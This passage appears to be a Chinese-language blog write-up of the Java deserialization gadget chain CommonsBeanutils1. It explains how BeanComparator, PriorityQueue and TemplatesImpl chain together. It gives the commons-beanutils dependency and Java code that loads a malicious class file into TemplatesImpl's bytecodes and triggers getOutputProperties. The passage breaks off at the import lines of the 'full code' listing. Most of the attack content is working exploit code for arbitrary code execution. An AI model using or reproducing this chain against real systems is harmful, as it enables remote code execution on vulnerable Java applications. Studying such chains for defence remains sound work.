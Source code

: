 

### 利用

既然能调用除Map子类外任意类符合getter命名的方法。TemplatesImpl下的getOutputProperties就非常符合条件了。顺利调用到newTransformer()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806173137478.png)

我们在攻击环境加上如下依赖

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

触发getOutputProperties代码：

```java
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        PropertyUtils.getProperty(templatesClass, "outputProperties");
    }
```

那怎么调用getProperty呢？

我们找到了一个类似TransformingComparator.compare的触发点，在BeanComparator.compare。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806174420332.png)

property用构造函数传入

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806175442174.png)

依旧用PriorityQueue.siftDownUsingComparator链上，后面就和CC2一样了。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806175123345.png)

完整代码：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
```